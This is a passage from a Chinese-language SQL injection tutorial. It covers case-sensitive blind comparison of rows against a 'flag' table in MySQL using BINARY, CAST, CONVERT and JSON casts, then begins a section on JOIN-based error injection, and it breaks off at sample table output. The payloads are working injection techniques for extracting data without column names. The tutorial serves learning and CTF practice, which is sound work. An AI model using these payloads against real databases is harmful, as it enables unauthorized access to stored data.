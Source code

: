 这是因为 **mysql默认是不区分大小写的** ，所以说实际上比较的是ascii(g)与ascii(f)，当然前者大，返回1

如果我们要比较ascii码的大小，那我们就需要使用 **二进制字符串** 进行比较

具体来说，mysql可以使用三类函数进行类型的转换

| Name | Description |
| ------ | ------ |
| BINARY | Cast a string to a binary string |
| CAST() | Cast a value as a certain type |
| CONVERT() | Cast a value as a certain type |

所以我们只需要使用函数，进行转换类型即可实现比较 

payload:
``` sql
## 使用binary
select ((select 1,(binary 'G')) > (select * from flag limit 1));
## 使用cast
select ((select 1,cast('G' as binary)) > (select * from flag limit 1));
## 使用convert
select ((select 1,convert('G', binary)) > (select * from flag limit 1));
```

或者可以使用mysql8中新增的数据类型json，因为json的string类型是大小写敏感的

![](./img/NoColumnInjection&BypassInformation_schema/1.png)

payload:
``` sql
select ((select 1,concat('G', cast('0' as json))) > (select * from flag limit 1));
```

### JOIN报错注入

在某些开发者配置不当的场景下，服务器会返回sql查询的错误信息
这时我们就可以使用JOIN进行报错注入

表2的数据
```sql
mysql> select * from newtable2;
+------+-------+----------+
| id2  | name2 | pwd2     |
+------+-------+----------+
|    4 | zww   | 123456   |
|    5 | zww2  | 1234567  |
|    6 | zww3  | 12345678 |
+------+-------+----------+
3 rows in set (0.00 sec)
```
